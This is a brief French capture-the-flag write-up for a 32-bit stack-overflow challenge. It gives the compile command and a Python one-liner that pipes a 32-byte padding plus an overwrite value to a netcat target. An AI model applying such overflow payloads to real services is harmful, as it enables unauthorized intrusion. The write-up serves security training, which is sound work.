# Sondage 1

## Objectif du challenge

Le but de ce challenge est de venir modifier une valeur la stack pour obtenir le flag.
 
## Compilation

```sh
gcc pwn1.c -o pwn1 -m32
```

## Résolution

```sh
python2 -c 'print "A"*32 + "\x05\xb0\xd3\xc0"' | nc target 5555
```


